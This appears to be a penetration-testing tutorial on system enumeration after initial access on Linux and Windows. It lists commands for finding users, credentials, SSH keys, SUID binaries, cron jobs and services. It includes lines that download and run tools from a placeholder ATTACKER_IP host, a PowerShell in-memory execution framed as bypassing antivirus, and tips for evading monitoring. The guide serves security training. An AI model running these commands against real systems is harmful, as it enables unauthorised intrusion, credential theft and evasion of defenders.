

# System Enumeration
> **Difficulty:** Intermediate–Advanced | **Category:** Penetration Testing

---

## Why Enumeration Comes Before Everything Else

After gaining initial access to a target system, your first instinct might be to escalate privileges or pivot — but that is premature. **Thorough system enumeration** is what separates professional penetration testers from script kiddies. You cannot escalate what you do not understand.

System enumeration answers:
- What OS, version, and patch level is this?
- What user context do I have and what can I do with it?
- What else is on this network?
- What services are running and what ports are listening?
- What credentials, keys, and secrets are accessible?
- What scheduled tasks, services, or startup items could be abused?

> **Note:** Automated tools like `linpeas.sh` and `winpeas.exe` are excellent, but you must understand what they look for. Running a tool you do not understand means you will miss what it flags and misinterpret what it reports.

---

## Enumeration Flowchart



---

## Linux Enumeration

### User Context

Understanding who you are is the foundation of everything else.

```bash
# Basic identity
id
whoami
hostname
uname -a          # kernel version — critical for kernel exploits
uname -r          # kernel release only
arch              # architecture (x86_64, aarch64, etc.)

# OS distribution details
cat /etc/os-release
cat /etc/lsb-release
cat /etc/*-release 2>/dev/null
lsb_release -a 2>/dev/null

# Full environment
env
printenv
echo $PATH
echo $HOME
echo $SHELL

# Current session info
w                 # who is logged in and what are they doing
who               # logged-in users
last | head -30   # last 30 logins
lastlog           # last login for all accounts
```

> **Note:** `uname -r` is critical. Cross-reference the kernel version against CVE databases. For example, kernels before 5.8.9 are vulnerable to **CVE-2021-3490** (eBPF verifier bypass), and 2.6.x/3.x era kernels have dozens of local privilege escalation vulnerabilities including the famous **DirtyCOW (CVE-2016-5195)**.

### Users and Groups

```bash
# All local users
cat /etc/passwd
# Format: username:x:UID:GID:GECOS:home:shell
# Look for: UIDs < 1000 (system accounts), unusual login shells

# Filter for users with a login shell
cat /etc/passwd | grep -v "/nologin\|/false\|/sync" | awk -F: '{print $1, $3, $6, $7}'

# Shadow file — contains hashed passwords (usually needs root)
cat /etc/shadow 2>/dev/null
# Format: username:$hash_type$salt$hash:last_change:min:max:warn:inactive:expire

# Group memberships
cat /etc/group
id username                   # groups for a specific user
groups                        # groups for current user

# Look for interesting groups: sudo, docker, adm, disk, lxd, wheel
id | grep -E "sudo|docker|adm|disk|lxd|wheel"

# Home directories — check what users have home dirs
ls -la /home/
ls -la /root/ 2>/dev/null     # may fail without root
```

**Key groups to watch for:**

| Group | Privilege Implication |
|-------|----------------------|
| `sudo` / `wheel` | Can run commands as root |
| `docker` | Effectively root via container escape |
| `lxd` / `lxc` | Container privilege escalation |
| `disk` | Raw disk access — can read filesystem blocks |
| `adm` | Can read most log files — credential disclosure |
| `shadow` | Can read `/etc/shadow` — direct hash access |

### Network Configuration

```bash
# Network interfaces
ip a
ip addr show
ifconfig 2>/dev/null   # older systems

# Routing table
ip route
ip route show table all
route -n 2>/dev/null

# ARP table — hosts that have communicated with this machine
arp -n
ip neigh

# DNS configuration
cat /etc/resolv.conf
cat /etc/hosts

# Active connections and listening ports
ss -tlnp                           # TCP listening, no dns lookup, show pid
ss -ulnp                           # UDP listening
ss -tlnp4                          # IPv4 only
netstat -tlnp 2>/dev/null          # older systems
netstat -ano 2>/dev/null

# Firewall rules
iptables -L -n -v 2>/dev/null
iptables -t nat -L -n -v 2>/dev/null
nft list ruleset 2>/dev/null
ufw status verbose 2>/dev/null

# Network connections with process info
lsof -i
lsof -i TCP -i UDP
```

### Running Processes

```bash
# All processes
ps aux
ps -ef

# Process tree — shows parent/child relationships
ps auxf
pstree -a

# Processes running as root
ps aux | awk '$1 == "root"'

# Look for interesting processes: database daemons, web servers, backup tools
ps aux | grep -E "mysql|postgres|apache|nginx|python|ruby|node|backup"

# Check if any processes are running scripts from writable directories
ps aux | grep -v '^root' | awk '{print $11}' | sort | uniq

# Detailed process info (environment variables of a running process)
# Requires: either root, or ownership of the process
cat /proc/<PID>/environ | tr '\0' '\n'
cat /proc/<PID>/cmdline | tr '\0' ' '
```

### Installed Software

```bash
# Debian/Ubuntu — dpkg package database
dpkg -l
dpkg -l | grep -i "apache\|nginx\|mysql\|php\|python\|ruby\|perl"
dpkg -l | awk '{print $2, $3}' | column -t   # name + version

# RHEL/CentOS/Fedora — rpm package database
rpm -qa
rpm -qa | grep -E "httpd|mysql|postgresql|python"
rpm -qa --qf "%{NAME} %{VERSION}\n" | sort

# Snap packages
snap list 2>/dev/null

# Flatpak
flatpak list 2>/dev/null

# Manually installed binaries — check common paths
ls -la /opt/
ls -la /usr/local/bin/
ls -la /usr/local/sbin/

# Check for development tools (useful for compiling exploits)
which gcc g++ cc make python python3 perl ruby php 2>/dev/null
```

### Cron Jobs

Cron jobs are a **prime privilege escalation vector** — if a script run by root is in a world-writable directory or calls a binary you can overwrite, it is game over.

```bash
# Current user's cron
crontab -l

# All user cron files (requires root or /var/spool/cron read access)
ls -la /var/spool/cron/crontabs/ 2>/dev/null
cat /var/spool/cron/crontabs/* 2>/dev/null

# System-wide cron
cat /etc/crontab
ls -la /etc/cron.d/
cat /etc/cron.d/*
ls -la /etc/cron.hourly/
ls -la /etc/cron.daily/
ls -la /etc/cron.weekly/
ls -la /etc/cron.monthly/

# Check for writable cron scripts
find /etc/cron* -type f 2>/dev/null | xargs ls -la 2>/dev/null
find /var/spool/cron -type f 2>/dev/null | xargs ls -la 2>/dev/null

# Use pspy to monitor processes without root (detects cron jobs as they run)
./pspy64   # download from github.com/DominicBreuker/pspy
```

### Sudo Rights

```bash
# What can current user run with sudo?
sudo -l
sudo -l -U username 2>/dev/null   # check another user if you have permissions

# Interpret the output:
# (root) NOPASSWD: /usr/bin/find    -> can run find as root without password
# (ALL:ALL) ALL                      -> full sudo access
# (www-data) /usr/bin/python3        -> can run python3 as www-data

# GTFOBins — check if any allowed binary has a sudo escalation
# https://gtfobins.github.io/
```

### Filesystem and Interesting Files

```bash
# SUID/SGID binaries — execute with owner's privileges
find / -perm -4000 -type f 2>/dev/null   # SUID
find / -perm -2000 -type f 2>/dev/null   # SGID
find / -perm -4000 -o -perm -2000 2>/dev/null | xargs ls -la 2>/dev/null

# World-writable files and directories
find / -writable -type f 2>/dev/null | grep -v proc
find / -writable -type d 2>/dev/null | grep -v proc

# Files modified in the last 10 minutes (useful during active engagement)
find / -mmin -10 -type f 2>/dev/null | grep -v proc | grep -v sys

# Files modified today
find / -newer /tmp -type f 2>/dev/null | grep -v proc | grep -v sys | head -50

# SSH files
find / -name "id_rsa" -o -name "id_ecdsa" -o -name "id_ed25519" 2>/dev/null
find / -name "authorized_keys" 2>/dev/null
find / -name "known_hosts" 2>/dev/null
ls -la ~/.ssh/ 2>/dev/null

# Bash history files
cat ~/.bash_history 2>/dev/null
cat ~/.zsh_history 2>/dev/null
cat ~/.sh_history 2>/dev/null
find / -name ".bash_history" 2>/dev/null | xargs cat 2>/dev/null

# Config files that may contain credentials
find / -name "*.conf" -o -name "*.config" -o -name "*.cfg" 2>/dev/null | grep -v proc
find / -name "wp-config.php" 2>/dev/null
find / -name ".env" 2>/dev/null
find / -name "database.yml" 2>/dev/null
find / -name "settings.py" 2>/dev/null

# Mounted filesystems
df -h
mount
cat /etc/fstab
cat /proc/mounts

# Capabilities (like SUID but more targeted — also exploitable)
getcap -r / 2>/dev/null
```

### Open Files and Network Sockets

```bash
# All open files
lsof -i

# Open connections by port
lsof -i :80
lsof -i :443
lsof -i :3306

# Open files owned by a specific user
lsof -u root

# Deleted files still held open (may contain sensitive data)
lsof | grep deleted
```

---

## Windows Enumeration

### User Context

```powershell
# Basic identity
whoami
whoami /all          # shows groups, privileges, SID
whoami /priv         # shows token privileges in detail
whoami /groups       # shows group memberships only

# Local users and groups
net user                              # list all local users
net user Administrator                # details on specific user
net user %USERNAME%                   # details on current user
net localgroup                        # list all local groups
net localgroup Administrators         # members of Administrators group
net localgroup "Remote Desktop Users" # check RDP access

# PowerShell equivalents (more detail)
Get-LocalUser
Get-LocalUser | Select Name, Enabled, LastLogon | Format-Table
Get-LocalGroup
Get-LocalGroupMember -Group Administrators
```

> **Note:** `whoami /priv` is critical. Privileges like `SeImpersonatePrivilege`, `SeAssignPrimaryTokenPrivilege`, and `SeBackupPrivilege` are directly exploitable for privilege escalation. **Juicy Potato**, **RoguePotato**, and **PrintSpoofer** all exploit `SeImpersonatePrivilege` — extremely common on IIS/service accounts.

### System Information

```cmd
:: System details
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
hostname
ver

:: Architecture
echo %PROCESSOR_ARCHITECTURE%

:: Installed hotfixes (patch level — look for missing patches)
wmic qfe list brief /format:table
Get-HotFix | Sort-Object InstalledOn -Descending | Select HotFixID, InstalledOn | Format-Table
```

### Running Processes and Services

```cmd
:: Process list
tasklist
tasklist /v                           :: verbose — includes memory, session
tasklist /svc                         :: show services hosted in each process
tasklist /fi "username eq SYSTEM"     :: processes running as SYSTEM

:: PowerShell
Get-Process | Sort-Object CPU -Descending | Select Name, CPU, WS, Id | Format-Table
Get-Process | Where-Object {$_.MainWindowTitle -ne ""} | Select Name, MainWindowTitle

:: Services
sc query                    :: running services
sc query state= all         :: all services (running + stopped)
sc qc ServiceName           :: query config for a specific service (check binary path!)
Get-Service | Format-Table -AutoSize
Get-Service | Where-Object {$_.Status -eq "Running"} | Sort-Object Name

:: WMI for detailed service info
wmic service get name,displayname,startmode,pathname | findstr /i "auto"
```

**Look for services with unquoted paths:**

```cmd
wmic service get name,pathname 2>nul | findstr /i /v "C:\Windows\\" | findstr /i /v """
```

A service with path `C:\Program Files\My App\service.exe` (unquoted, with spaces) will first try to execute `C:\Program.exe` — a classic privilege escalation if you can write to `C:\`.

### Network Information

```cmd
:: Network interfaces
ipconfig /all

:: Active connections (note: -ano shows PIDs, cross-ref with tasklist)
netstat -ano
netstat -ano | findstr LISTENING
netstat -ano | findstr :3389        :: check if RDP is listening
netstat -ano | findstr ESTABLISHED  :: active connections

:: ARP table
arp -a

:: Routing table
route print

:: DNS cache
ipconfig /displaydns

:: Hosts file
type C:\Windows\System32\drivers\etc\hosts

:: SMB shares
net share
net use                             :: mapped drives

:: NetBIOS
nbtstat -n
```

### Registry Autoruns and Startup Items

```cmd
:: Registry run keys
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce

:: PowerShell
Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
Get-ItemProperty HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

:: Startup folder locations
dir /b "C:\Users\%USERNAME%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
dir /b "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

:: All autoruns with Sysinternals Autoruns (if available)
autorunsc.exe -accepteula -a * -c > autoruns.csv
```

### Scheduled Tasks

```cmd
:: All scheduled tasks (verbose)
schtasks /query /fo LIST /v
schtasks /query /fo TABLE

:: PowerShell — more readable
Get-ScheduledTask | Where-Object {$_.State -ne "Disabled"} | 
  Select TaskName, TaskPath, State | Format-Table

Get-ScheduledTask | Where-Object {$_.State -ne "Disabled"} | 
  Get-ScheduledTaskInfo | Select TaskName, LastRunTime, NextRunTime | Format-Table

:: Check a specific task
schtasks /query /tn "\TaskName" /fo LIST /v
```

### Installed Software

```cmd
:: WMIC (deprecated in newer Windows but still works)
wmic product get name,version
wmic product get name,version /format:csv > installed.csv

:: Registry-based (faster and more complete)
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall /s | findstr "DisplayName DisplayVersion"
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall /s | findstr "DisplayName DisplayVersion"

:: PowerShell
Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\* | 
  Select DisplayName, DisplayVersion, Publisher | 
  Where-Object {$_.DisplayName} | Sort-Object DisplayName | Format-Table
```

---

## Automation Tools

### linpeas.sh (Linux)

`linpeas.sh` (Linux Privilege Escalation Awesome Script) is the most comprehensive automated enumeration tool for Linux. It checks hundreds of potential privilege escalation vectors and colour-codes output by severity.

```bash
# Method 1: Download and run directly (requires internet from target)
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Method 2: Transfer via HTTP server (more common in real engagements)
# On attacker:
python3 -m http.server 8080
# On target:
wget http://ATTACKER_IP:8080/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh | tee /tmp/linpeas-output.txt

# Method 3: Transfer via SCP (if you have credentials)
scp linpeas.sh user@target:/tmp/

# Run with all checks including slow ones
/tmp/linpeas.sh -a

# Run and save output (strip ANSI colours for report)
/tmp/linpeas.sh 2>/dev/null | tee /tmp/linpeas.txt
cat /tmp/linpeas.txt | sed 's/\x1b\[[0-9;]*m//g' > /tmp/linpeas-clean.txt
```

**Key sections to review in linpeas output:**

| Section | What It Finds |
|---------|--------------|
| System Info | Kernel version, distribution |
| Users & Groups | Interesting memberships, sudo rights |
| Interesting Files | SUID, writable, cron scripts |
| Software | Vulnerable versions (cross-referenced) |
| Network | Interfaces, open ports, ARP |
| Credentials | History files, config file passwords |
| Services | Running services, socket files |

### winpeas.exe (Windows)

```powershell
# Transfer via PowerShell download
Invoke-WebRequest -Uri "http://ATTACKER_IP:8080/winpeas.exe" -OutFile "C:\Windows\Temp\winpeas.exe"

# Or use certutil (often available even on restricted systems)
certutil.exe -urlcache -split -f "http://ATTACKER_IP:8080/winpeas.exe" C:\Windows\Temp\winpeas.exe

# Run and save output
C:\Windows\Temp\winpeas.exe > C:\Windows\Temp\winpeas-out.txt 2>&1

# Run specific checks
winpeas.exe systeminfo
winpeas.exe userinfo
winpeas.exe processinfo
winpeas.exe servicesinfo
winpeas.exe applicationinfo
winpeas.exe networkinfo
winpeas.exe windowscreds
winpeas.exe browserinfo
winpeas.exe filesinfo
```

> **Warning:** `winpeas.exe` will trigger Windows Defender and most AV solutions on a standard run. Options: use the obfuscated version, run in memory via PowerShell (`IEX`), or disable AV if you have admin rights and it is in scope.

```powershell
# Run winpeas from memory (bypasses file-based AV detection)
IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP:8080/winpeas.ps1')
```

### enum4linux (Samba/Linux Active Directory)

```bash
# Full enumeration of a Samba host
enum4linux -a TARGET_IP

# Specific enumeration types
enum4linux -U TARGET_IP    # users
enum4linux -G TARGET_IP    # groups  
enum4linux -S TARGET_IP    # shares
enum4linux -P TARGET_IP    # password policy
enum4linux -o TARGET_IP    # OS info

# Modern replacement: enum4linux-ng
enum4linux-ng -A TARGET_IP
enum4linux-ng -A TARGET_IP -oY /tmp/enum4linux-results.yml
```

---

## Linux vs Windows Enumeration Equivalents

| Task | Linux Command | Windows Command |
|------|--------------|-----------------|
| Current user | `whoami` / `id` | `whoami` / `whoami /all` |
| Hostname | `hostname` | `hostname` |
| OS version | `uname -a` / `cat /etc/os-release` | `systeminfo` / `ver` |
| All local users | `cat /etc/passwd` | `net user` |
| User groups | `id` / `groups` | `whoami /groups` |
| Admin group members | `grep sudo /etc/group` | `net localgroup administrators` |
| Network interfaces | `ip a` / `ifconfig` | `ipconfig /all` |
| Routing table | `ip route` | `route print` |
| ARP table | `arp -n` / `ip neigh` | `arp -a` |
| DNS servers | `cat /etc/resolv.conf` | `ipconfig /all` |
| Hosts file | `cat /etc/hosts` | `type C:\Windows\System32\drivers\etc\hosts` |
| Listening ports | `ss -tlnp` | `netstat -ano \| findstr LISTENING` |
| Active connections | `ss -tnp` | `netstat -ano \| findstr ESTABLISHED` |
| Running processes | `ps aux` | `tasklist /v` |
| Process tree | `ps auxf` / `pstree` | `tasklist /v` (no tree) |
| Services | `systemctl list-units` | `sc query state= all` |
| Installed packages | `dpkg -l` / `rpm -qa` | `wmic product get name,version` |
| Scheduled tasks | `crontab -l` / `cat /etc/crontab` | `schtasks /query /fo LIST /v` |
| Environment vars | `env` / `printenv` | `set` |
| Sudo/admin rights | `sudo -l` | `whoami /priv` |
| Autoruns | `ls /etc/init.d/` / `systemctl` | `reg query HKLM\...\Run` |
| Firewall rules | `iptables -L` / `ufw status` | `netsh advfirewall show allprofiles` |
| SMB shares | `smbclient -L localhost` | `net share` |
| Mapped drives | `mount` | `net use` |
| SUID binaries | `find / -perm -4000` | N/A (use token privileges) |
| Recent files | `find / -mmin -10` | `dir /od /a` |
| History file | `cat ~/.bash_history` | `type %APPDATA%\...\ConsoleHost_history.txt` |

---

## Enumeration Anti-Detection Tips

> **Warning:** In red team engagements with active monitoring, enumeration commands can trigger SIEM alerts. Heavy tool usage (linpeas, nmap from inside) is especially noisy.

```bash
# Slower, quieter internal network sweep (less ICMP flooding)
for i in $(seq 1 254); do
    ping -c 1 -W 0.5 192.168.1.$i &>/dev/null && echo "Up: 192.168.1.$i"
    sleep 0.1
done

# Check logs to understand what's being monitored
cat /var/log/auth.log | tail -50
cat /var/log/syslog | tail -50
journalctl -xe | tail -50

# Avoid writing to disk when possible — run tools in memory
# curl linpeas.sh | sh   (doesn't touch disk)
```

---

## Key Terms

- **UID 0**: The root user on Linux — any process or account with UID 0 has full system access
- **SeImpersonatePrivilege**: A Windows privilege that allows a process to impersonate security tokens — commonly exploited via Potato exploits
- **SUID**: Set User ID bit — causes a binary to run as its file owner regardless of who executes it
- **GTFOBins**: A curated list of Unix binaries that can be abused for privilege escalation, file reads, or shell spawning (gtfobins.github.io)
- **LOLBAS**: Living Off the Land Binaries and Scripts — Windows equivalents of GTFOBins (lolbas-project.github.io)
- **pspy**: A Linux process monitor that does not require root, useful for watching cron jobs and scripts execute in real time
- **winpeas**: Windows Privilege Escalation Awesome Script — automated local privilege escalation checker
- **linpeas**: Linux Privilege Escalation Awesome Script — automated local privilege escalation checker
- **Unquoted service path**: A Windows privilege escalation vector where a service binary path with spaces is unquoted, allowing injection of a malicious executable at an earlier path component

---

*See also: `post-exploitation-overview.md`, `credential-dumping.md`, `privilege-escalation-linux.md`*
